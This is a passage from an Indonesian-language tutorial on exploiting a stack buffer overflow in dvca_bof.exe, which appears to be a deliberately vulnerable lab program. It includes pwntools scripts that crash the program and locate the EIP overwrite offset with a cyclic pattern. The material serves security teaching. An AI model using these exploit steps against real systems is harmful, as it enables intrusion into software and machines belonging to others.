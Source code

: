 ### Jalankan program

Buka tool immunity debugger dan jalankan program dvca_bof.exe

![dvca_bof.exe]({{ site.baseurl }}/images/posts/2018/p1_1.png "dvca_bof.exe dijalankan oleh immunity debugger"){:width="600"}

### Membuat program crash

Pertama kita buat script python untuk mentrigger celah program.

```Python
#dvca_bofexploit.py
#!/usr/local/bin/python

from pwn import *

def terima(p):
 data = p.recv(1024)
 log.info("recv: " + data)
def kirim(p, payload):
 p.sendline(payload)
 log.info("send: "+ payload)

evil = "A"*2000
p = remote('192.168.56.103', 31331)
terima(p)
kirim(p, evil)
```

Jalankan script dan lihat pada debugger.

![dvca_bof.exe crash]({{ site.baseurl }}/images/posts/2018/p1_2.png "dvca_bof.exe crash"){:width="600"}

Kita lihat register EIP berisikan data `0x41414141` yaitu representasi dari karakter `AAAA` di dalam memori. EIP adalah instruction pointer, sebuah register yang menyimpan alamat dari memori yang akan dieksekusi operation code-nya. Program crash karena pada memori tidak ditemukan alamat 0x41414141.

### Mengontrol register EIP

Sekarang kita akan mencari tahu offset dimana tepatnya karakter A kita menimpa isi data dari register EIP. kita dapat menggunakan pattern.py untuk men-generate metasploit pattern. `$ pattern.py create 2000` untuk membuat 2000 karakter metasploit.

Kemudian script python menjadi:

```python
#dvca_bofexploit.py
#!/usr/local/bin/python

from pwn import *

def terima(p):
 data = p.recv(1024)
 log.info("recv: " + data)
def kirim(p, payload):
 p.sendline(payload)
 log.info("send: "+ payload)

evil = "Aa0Aa1Aa2Aa3... ...Co1Co2Co3Co4Co5Co" #shorten because it's too long
p = remote('192.168.56.103', 31331)
terima(p)
kirim(p, evil)
```

